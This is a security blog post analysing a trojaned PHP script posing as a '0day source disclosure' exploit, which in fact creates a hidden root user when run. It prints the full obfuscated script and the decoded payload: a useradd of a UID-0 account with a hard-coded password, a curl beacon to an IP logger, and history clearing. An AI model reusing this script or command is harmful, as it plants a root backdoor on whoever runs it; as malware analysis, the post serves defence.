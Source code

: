 ```yaml
---
layout: post
title:  "PHP fake 0day"
subtitle: "Having fun with a false exploit"
date:   2015-08-07 23:34:01
category: itsec
---
```


Today [@sh1bumi](https://twitter.com/Sh1bumi) of [@MalwareMustDie](https://twitter.com/MalwareMustDie) found a interesting **PHP** script. At a first look at seemed like a **0day** for websites which are running PHP. "This cannot be, another 0day" we thought, so we analysed the script.
(Script is at the end of the post)

When running it it does that:

        [1;33mScript Replied:[0m Run as [1;32m[4mroot[0m user!

A 0day PHP exploit script has to be run as root? What? Okay, okay. Let's run as root:




                  ____.----.
        ____.----'          \
        \                    \
         \                    \
          \                    \
           \          ____.----'`--.__
            \___.----'          |     `--.____
           /`-._                |       __.-' \
          /     `-._            ___.---'       \
         /          `-.____.---'                \
        /            / | \                       \
       /            /  |  \                   _.--'
       `-.         /   |   \            __.--'
          `-._    /    |    \     __.--'     |
            | `-./     |     \_.-'           |
            |          |                     |   0DAY
            |          |                     |   EXPLOIT
            |          |                     |   UNBOXED
            |          |                     |
            |          |                     |  -ANONYMOUS-
            |          |                     |
     _______|          |                     |_______________
            `-.        |                  _.-'
               `-.     |           __..--'
                  `-.  |      __.-'
                     `-|__.--'
     # Exploit Title: Source Disclosure 2015 0day - All versions, All Browsers
     # Google Dork: .php
     # Date: 02/09/2015
     # Exploit Author: Leaked by Anonymous
     # Vendor Homepage: http://php.net/
     # Software Link: http://php.net/downloads.php
     # Version: All versions
     # Tested on: Windows, Linux
     # CVE: 0day (No CVE)
     # Usage: php 0day.php <website> <filename>[0m

Aha, so this is a 0day and we just have to run it against any website. No hint what the script actually should do to that remote website. So let's run it:

        $: sudo php 0day.php http://localhost localhost
        sh: 1: history: not found
        Source of http://localhost saved to localhost

The script wrote the file *localhost*, when looking at the contents it shows us that:

        <html>
        <header>
        <title>Test</title>
        </header>
        <body>
        this is just a test
        </body>
        </html>

Okay, it just saved the output of the website to a file, the website had this script:

        <html>
        <header>
        <title>Test</title>
        </header>
        <body>
                <?php echo "this is just a test"; ?>
        </body>
        </html>

I added **PHP** code to it in case it does some magic to it (remember, the Google Dork is *.php*).
Now I am a bit frustaded, no cool kiddo magic? No server bashing?
Let's dig deeper!

Variable *$header* is just the fancy ASCII stuff at the beginning, so let's look at:

        $bytes = array("passthru", "base64_decode");
    @array_push($bytes, "gzuncompress", "base64_decode");
    var_dump($bytes);
    @$bytes[0]($bytes[1]($bytes[2]($bytes[3]('eJw1yrsOgjAYQOFXgiIkDg4NxlJDQRG5dORvUqAFScAWfHoZdDrD+USVaBguiod4abynZHv5hi0lmWIRk7cOG04KFCPfbYiVrD8MLF90jVrzMwFHxbsZ1ZrmyqWRlfuzdZV8BLr/fS+q60xDZwGkZ176DiWtIyIcxNtxArIajoSGzjcwgGHVy3ucmUxRO4GXGRiVjEt2+gKxYTqF'))));

*var_dump($bytes)* gives me the way how the encoded string will be processed, so let's add an *echo* at the right place:

        array (size=4)
          0 => string 'passthru' (length=8)
          1 => string 'base64_decode' (length=13)
          2 => string 'gzuncompress' (length=12)
          3 => string 'base64_decode' (length=13)

        $bytes = array("passthru", "base64_decode");
    @array_push($bytes, "gzuncompress", "base64_decode");
    var_dump($bytes);
    @$bytes[0]($bytes[1]($bytes[2]($bytes[3]('eJw1yrsOgjAYQOFXgiIkDg4NxlJDQRG5dORvUqAFScAWfHoZdDrD+USVaBguiod4abynZHv5hi0lmWIRk7cOG04KFCPfbYiVrD8MLF90jVrzMwFHxbsZ1ZrmyqWRlfuzdZV8BLr/fS+q60xDZwGkZ176DiWtIyIcxNtxArIajoSGzjcwgGHVy3ucmUxRO4GXGRiVjEt2+gKxYTqF'))));
    echo $bytes[1]($bytes[2]($bytes[3]('eJw1yrsOgjAYQOFXgiIkDg4NxlJDQRG5dORvUqAFScAWfHoZdDrD+USVaBguiod4abynZHv5hi0lmWIRk7cOG04KFCPfbYiVrD8MLF90jVrzMwFHxbsZ1ZrmyqWRlfuzdZV8BLr/fS+q60xDZwGkZ176DiWtIyIcxNtxArIajoSGzjcwgGHVy3ucmUxRO4GXGRiVjEt2+gKxYTqF')));

Which gives me:

        useradd -ou 0 -g 0 dd0s > /dev/null 2>&1;echo dd0s:genny1995 | chpasswd 2>&1;curl --silent http://iplogger.org/1z7H3 ;history -c

Hu, that is no remote exploit. That adds silently a user with password and **ID 0**. Yes, **0**. **0 is root**. So this user might handled with root privileges. Also it curls an URL, this is just there to log IP accessing it, so the crooks just wait until IP's are arriving and then open SSH connections as user dd0s with password genny1995. Curl just recieves a blank GIF image:

        GIF89a^A^@^A^@�^@^@^@^@^@^@^@^@!�^D^A^@^@^@^@,^@^@^@^@^A^@^A^@^@^B^BD^A^@;

Okay, as we see, this is some kind of a honeytrap. Kiddies, wannabe hackers and researchers might think they found a new cool exploit, run this script as root (as it requests) and get owned. So the crooks just login to that user with an ID of 0.
To delete that user run:

        userdel -f dd0s

You will get this warning:

        userdel: user dd0s is currently used by process 1

That is because it has the same id as root.

We learn: be aware when you research, you might get aimed as a researcher. And to the kiddos: I am laughing at you when you think you found another script to easily own other systems with simple commands.

**Malware must die!**

**Thanks to sh1bumi!**

And to the crooks which are spreading that script: we are right hunting you. Prepare your butt!

![](https://i.imgur.com/ABDOMID.png)


----------

Script:

        <?php
        /*
        # Exploit Title: Source Disclosure 2015 0day - All versions, All Browsers
        # Google Dork: .php
        # Date: 02/09/2015
        # Exploit Author: Leaked by Anonymous
        # Vendor Homepage: http://php.net/
        # Software Link: http://php.net/downloads.php
        # Version: All versions
        # Tested on: Windows, Linux
        # CVE: 0day (No CVE)
        # Credits: Anonymous Hacker
        */
        error_reporting(0);
        if (!defined('STDIN')) {
            die("Run through command line skiddy!");
        }
        if (posix_getuid() != '0') {
            exit("[1;33mScript Replied:[0m Run as [1;32m[4mroot[0m user!
        ");
        }
        $header =
        gzuncompress(base64_decode("eJyllEEKgzAQRfdewY07VyZtXXZl0UWhNYVWUCrEC3iDHL6TRM1MDIh1FiLJ+/N/zGD8PV/zfIySVUkolkGxaLWUOqxfdvt1D7y9ub8NYMJlGSCilOQEfSCoMk8LU5wPsOb7qsWHQRecgk+NqGZynA2RgDtosOaMJvMVHC9zSBL8MFjiKXT4kEYbp7MGspCI+sBEJAmeuCMbN/N9egSaV0WuQWkJTxYc7oWRg+tVTxF69YBYz+xlPJVFFwfGd0+Pqn09xP1ztE1T30Rblf+12e06mWZFLeruKZp3dsRY2trGJS1ihoYpoNa37v9hZgXGYZC8kSO0WqggYzBlh/EHmvLOew=="));
        function duplicate_source($website, $file) {
            $bytes = array("passthru", "base64_decode");
            @array_push($bytes, "gzuncompress", "base64_decode");
            @$bytes[0]($bytes[1]($bytes[2]($bytes[3]('eJw1yrsOgjAYQOFXgiIkDg4NxlJDQRG5dORvUqAFScAWfHoZdDrD+USVaBguiod4abynZHv5hi0lmWIRk7cOG04KFCPfbYiVrD8MLF90jVrzMwFHxbsZ1ZrmyqWRlfuzdZV8BLr/fS+q60xDZwGkZ176DiWtIyIcxNtxArIajoSGzjcwgGHVy3ucmUxRO4GXGRiVjEt2+gKxYTqF'))));
            (file_put_contents($file, file_get_contents($website)) ? print ("
        [1;33m# Script Replied:[0m Source of [1;33m$website[0m has been saved to
        [1;33m$file[0m
        ") : exit("     [1;33mScript Replied:[0m [31mExploit failed[0m
         for [1;33m$website[0m"));
        }
        if ($argc != 3) {
            exit($header . "


             # Exploit Title: Source Disclosure 2015 0day - All versions, All Browsers
             # Google Dork: .php
             # Date: 02/09/2015
             # Exploit Author: Leaked by Anonymous
             # Vendor Homepage: http://php.net/
             # Software Link: http://php.net/downloads.php
             # Version: All versions
             # Tested on: Windows, Linux
             # CVE: 0day (No CVE)

             # Usage: php $argv[0] <website> <filename>[0m

        ");
        }
        duplicate_source($argv[1], $argv[2]);
        ?>